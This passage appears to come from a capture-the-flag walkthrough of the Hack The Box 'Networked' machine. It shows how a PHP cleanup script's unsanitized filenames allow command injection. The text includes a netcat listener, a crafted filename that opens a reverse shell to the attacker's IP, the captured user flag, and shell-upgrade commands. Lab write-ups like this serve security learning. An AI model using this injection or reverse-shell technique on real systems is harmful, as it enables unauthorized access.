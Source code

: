 It starts by reading all files in the `upload` directory, and using `preg_grep` to select ones that don't start with `.` 

```php
foreach ($files as $key => $value)
```

Now there’s a `foreach` over `$files` where the number is stored as `$key` and the filename as `$value`.

Very nice. We should create a file on the `$PATH` directory and the file name will be set as `$value` .

Let's do it. Start 9001 listener:

```bash
nc -nlvp 9001
```

To get reverse shell execution, we will change this content:

```bash
nohup /bin/rm -f $path$value > /dev/null 2>&1 &
```

Use touch to create new file:

```bash
cd /var/www/html/uploads/
```

```bash
touch -- ';nc -c bash 10.10.14.7 9001;.php'
```

![[Networked-15.png]]

Very nice, we get the shell and capture the user flag

```bash
id
cat /home/guly/user.txt
```

```
┌──(kali㉿kali)-[~/Desktop/Hackthebox/Networked/backup]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.146] 39092
id
uid=1000(guly) gid=1000(guly) groups=1000(guly)
cat /home/guly/user.txt
d49759276cf48e8953928d7c6df9ea0b

```

Then we upgrade to normal shell:

```bash
which python
# https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/
python -c 'import pty; pty.spawn("/bin/bash")'
^z
echo $TERM
stty -a
stty raw -echo && fg
# nc -lvp 1234
reset
xterm-256color
stty rows 47 columns 176
```
![[Networked-16.png]]